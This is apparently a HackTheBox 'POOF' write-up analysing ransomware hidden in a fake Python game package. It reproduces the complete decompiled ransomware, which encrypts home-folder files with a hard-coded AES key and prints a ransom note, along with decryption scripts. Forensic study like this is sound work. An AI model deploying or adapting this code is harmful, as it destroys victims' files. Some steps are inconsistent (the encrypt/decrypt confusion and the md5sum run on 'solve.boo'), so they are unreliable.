







# WRITE_UP #

## POOF ##

### 1. Analysis ###
* **Given:** a memory dump file `mem.dmp`, a pcap file `poof_capture.pcap`, a boo file `candy_dungeon.pdf.boo`, a zip folder `Ubuntu_4.15.0-184-generic_profile`
* **Description:** In my company, we are developing a new python game for Halloween. I'm the leader of this project; thus, I want it to be unique. So I researched the most cutting-edge python libraries for game development until I stumbled upon a private game-dev discord server. One member suggested I try a new python library that provides enhanced game development capabilities. I was excited about it until I tried it. Quite simply, all my files are encrypted now. Thankfully I manage to capture the memory and the network traffic of my Linux server during the incident. Can you analyze it and help me recover my files? To get the flag, connect to the docker service and answer the questions.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### STINKY POOF ####
* **The first question:** `Which is the malicious URL that the ransomware was downloaded from? (for example: http://maliciousdomain/example/file.extension)`
    * Using `Wireshark` to open the pcap file, we can trace the HTTP stream to find the malware's URL:

    

So the answer is: `http://files.pypi-install.com/packages/a5/61/caf3af6d893b5cb8eae9a90a3054f370a92130863450e3299d742c7a65329d94/pygaming-dev-13.37.tar.gz`

* **The second question:** `What is the name of the malicious process? (for example: malicious)`
    * We can use `Wireshark` to extract the file downloaded to analyze it further:

    

    * Inside the folder `pygaming-dev-13.37` we can find a file named `configure`

So the answer is: `configure`

* **The third question:** `Provide the md5sum of the ransomware file`
    * After identifying the malicious program, we can run `m5sum` to get its hash:

     

So the answer is: `c010fb1fdf8315bc442c334886804e00`

* **The fourth question:** `Which programming language was used to develop the ransomware? (for example: nim)` 
    * We can use `Detect it Easy` to analyze the programming language of the file:

    

    * Although there's two languages: `C` and `python`, we can see a package `PyInstaller` which will pack a python script to executable ELF file.

So the answer is: `python`

* **The fifth question:** `After decompiling the ransomware, what is the name of the function used for encryption? (for example: encryption)`

    * First, I ran:
    ```bash
    file configure
    > configure: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ac40f3d3f795f9ee657f59a09fbedea23c4d7e25, for GNU/Linux 2.6.32, stripped
    ```
    * As we can see, the file was stripped, so we can't use IDA or Ghidra to decompile the file since its functions will be different from the original code. We need to find another way.
    * After some reasearch, I found this github link: [How to decompile PyInstaller executables](https://gist.github.com/ikolomiko/6fbb5b1a00456974561c74f314ac321b)
    
    * **Note:** The link mentions 2 methods; however I recommend you to use `pyinstxtractor` since `archive_viewer` doesn't support the newest python version and it so much more complicated than the other.
    * Follow the link, I was able to decompile the file configure.
    
    * Now we can use a pyc decompile online to see the actual python script:
     
    * Here the python script:
    ```python
    # Decompiled with PyLingual (https://pylingual.io)
    # Internal filename: 'configure.py'
    # Bytecode version: 3.6rc1 (3379)
    # Source timestamp: 1970-01-01 00:00:00 UTC (0)

    from Crypto.Cipher import AES
    from sys import exit
    import random
    import string
    import time
    import os
    def Pkrr1fe0qmDD9nKx(filename: str, data: bytes) -> None:
        open(filename, 'wb').write(data)
        os.rename(filename, f'{filename}.boo')
    def mv18jiVh6TJI9lzY(filename: str) -> None:
        data = open(filename, 'rb').read()
        key = 'vN0nb7ZshjAWiCzv'
        iv = b'ffTC776Wt59Qawe1'
        cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv)
        ct = cipher.encrypt(data)
        Pkrr1fe0qmDD9nKx(filename, ct)
    def w7oVNKAyN8dlWJk() -> str:
        letters = string.ascii_lowercase + string.digits
        _id = ''.join((random.choice(letters) for i in range(32)))
        return _id
    def print_note() -> None:
        _id = w7oVNKAyN8dlWJk()
        banner = f'\n\nPippity poppity give me your property!\n\n\t   *                  ((((\n*            *        *  (((\n\t   *                (((      *\n  *   / \\        *     *(((    \n   __/___\\__  *          (((\n\t (O)  |         *     ((((\n*  \'<   ? |__ ... .. .             *\n\t \\@      \\    *    ... . . . *\n\t //__     \t// ||\\__   \\    |~~~~~~ . . .   *\n====M===M===| |=====|~~~~~~   . . .. .. .\n\t\t *  \\ \\ \\   |~~~~~~    *\n  *         <__|_|   ~~~~~~ .   .     ... .\n\t\nPOOF!\n\nDon\'t you speak English? Use https://translate.google.com/?sl=en&tl=es&op=translate \n\nYOU GOT TRICKED! Your home folder has been encrypted due to blind trust.\nTo decrypt your files, you need the private key that only we possess. \n\nYour ID: {_id}\n\nDon\'t waste our time and pay the ransom; otherwise, you will lose your precious files forever.\n\nWe accept crypto or candy.\n\nDon\'t hesitate to get in touch with cutie_pumpkin@ransomwaregroup.com during business hours.\n\n\t'
        print(banner)
        time.sleep(60)
    def yGN9pu2XkPTWyeBK(directory: str) -> list:
        filenames = []
        for filename in os.listdir(directory):
            result = os.path.join(directory, filename)
            if os.path.isfile(result):
                filenames.append(result)
            else:
                filenames.extend(yGN9pu2XkPTWyeBK(result))
        return filenames
    def main() -> None:
        username = os.getlogin()
        if username!= 'developer13371337':
            exit(1)
        directories = [f'/home/{username}/Downloads', f'/home/{username}/Documents', f'/home/{username}/Desktop']
        for directory in directories:
            if os.path.exists(directory):
                files = yGN9pu2XkPTWyeBK(directory)
                for fil in files:
                    try:
                        mv18jiVh6TJI9lzY(fil)
                    except Exception as e:
                        pass
        print_note()
    if __name__ == '__main__':
        main()
    ```    
    * Now we can easily identify the function used to encrypt the data.

* So the answer is: `mv18jiVh6TJI9lzY`

* **The sixth question:** `Decrypt the given file, and provide its md5sum.`

    * Now we should have a glance at the python script to find out what it does:
        1. Function `Pkrr1fe0qmDD9nKx` overwrites the data in a file then rename it to `<file_name>.boo`
        2. Function `mv18jiVh6TJI9lzY`: as we know, this is a encryptor function. It uses `AES` mode `CFB`, with the key `vN0nb7ZshjAWiCzv` and iv `ffTC776Wt59Qawe1` harcoded in the script to encrypt the file before call the rename function.
        3. Function `main` checks if the target directories (Downloads, Documents, Desktop) exist. If they do, it finds all files and calls the encryptor function.
        4. Function `print_not`e is called after the encryption process is finished to display the note, mock and blackmail the victim.
    * Remember the file `candy_dungeon.pdf.boo` we were given ? I was thinking these the file after encrypting process. Now we need to write a python script to see the data after this file was decrypted. 
    * First I tried this python script:
    ```python
    from Crypto.Cipher import AES
    import os

    def mv18jiVh6TJI9lzY(filename):
        data = open(filename, 'rb').read()
        key = 'vN0nb7ZshjAWiCzv'
        iv = b'ffTC776Wt59Qawe1' 
        cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv)
        pt = cipher.decrypt(data)
        open('solve.pdf', 'wb').write(pt)

    mv18jiVh6TJI9lzY('candy_dungeon.pdf.boo')
    ```
    * However I can't open the pdf file nor can't solve the question. So I tried using the same logic as the script to use encrypt function instead of decrypt one. Still then I was able to solve the chall:
    ```python
    from Crypto.Cipher import AES
    import os

    def mv18jiVh6TJI9lzY(filename):
        data = open(filename, 'rb').read()
        key = 'vN0nb7ZshjAWiCzv'
        iv = b'ffTC776Wt59Qawe1' 
        cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv)
        pt = cipher.encrypt(data) # still don't know why the author give us the `.boo` then make us to encrypt the data one     more time
        open('solve.pdf', 'wb').write(pt)

    mv18jiVh6TJI9lzY('candy_dungeon.pdf.boo')
    ``` 
    * Now we can run md5sum to see the hash of the decrypted file:
     
```bash
md5sum solve.boo
> 3bc9f072f5a7ed4620f57e6aa8d7e1a1
```


* So the answer is: `3bc9f072f5a7ed4620f57e6aa8d7e1a1`
  
```bash
kittne@DESKTOP-C0H1UVN:/mnt/d/sv_it/htb/Easy/Easy/POOF$ nc 154.57.164.69 31620

+-------+-----------------------------------------------------+
| Title |                     Description                     |
+-------+-----------------------------------------------------+
|  POOF |          In my company, we are developing a         |
|       |        new python game for Halloween. I'm the       |
|       |         leader of this project; thus, I want        |
|       |           it to be unique. So I researched          |
|       |    the most cutting-edge python libraries for game  |
|       |      development until I stumbled upon a private    |
|       |      discord server. One member suggested I try     |
|       |      a new python library that provides enhanced    |
|       |  game development capabilities. I was excited about |
|       |          it until I tried it. Quite simply,         |
|       |      all my files are encrypted now. Thankfully     |
|       |          I manage to capture the memory and         |
|       |        the network traffic of my Linux server       |
|       |        during the incident. Can you analyze it      |
|       |            and help me recover my files?            |
|       |                                                     |
+-------+-----------------------------------------------------+

Which is the malicious URL that the ransomware was downloaded from? (for example: http://maliciousdomain/example/file.extension)
>  http://files.pypi-install.com/packages/a5/61/caf3af6d893b5cb8eae9a90a3054f370a92130863450e3299d742c7a65329d94/pygaming-dev-13.37.tar.gz
[+] Correct!

What is the name of the malicious process? (for example: malicious)
>  configure
[+] Correct!

Provide the md5sum of the ransomware file.
> c010fb1fdf8315bc442c334886804e00
[+] Correct!

Which programming language was used to develop the ransomware? (for example: nim)
> python
[+] Correct!

After decompiling the ransomware, what is the name of the function used for encryption? (for example: encryption)
> mv18jiVh6TJI9lzY
[+] Correct!

Decrypt the given file, and provide its md5sum.
> 3fbf182fefc9c6105f253113c4a6ddd9
[-] Wrong Answer.

Decrypt the given file, and provide its md5sum.

> 3bc9f072f5a7ed4620f57e6aa8d7e1a1
[+] Correct!

[+] Here is the flag: HTB{Th1s_h4ll0w33n_w4s_r34lly_sp00ky}
```

## 3. Solution ##
1. **Result:** The flag is `HTB{Th1s_h4ll0w33n_w4s_r34lly_sp00ky}`


